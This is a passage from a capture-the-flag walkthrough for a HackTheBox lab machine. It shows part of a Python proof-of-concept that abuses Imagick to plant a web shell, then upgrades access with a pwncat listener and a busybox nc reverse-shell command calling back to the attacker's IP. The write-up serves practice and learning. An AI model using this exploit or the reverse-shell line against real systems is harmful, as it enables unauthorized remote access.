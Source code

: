 ```python
        tmpDir = "/tmp" if upload_tmp_dir == "no value" else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)
```
Now we can run our poc like this:
```bash
python3 poc.py http://surveillance.htb
```
and get the call back as www-data!
	
![www-data](./pic/www-data.png)
	
We can now get a better shell moving on pwncat, to do so we can start the listener on our local machine by doing so:
```bash
pwncat-cs -lp 7777
```
and sending the call-back from the poc shell:
```bash
busybox nc 10.10.16.103 7777 -e /bin/bash &
```
we now have a pncat shell!:
	
![pwncat www-data](./pic/pc-www.png)
	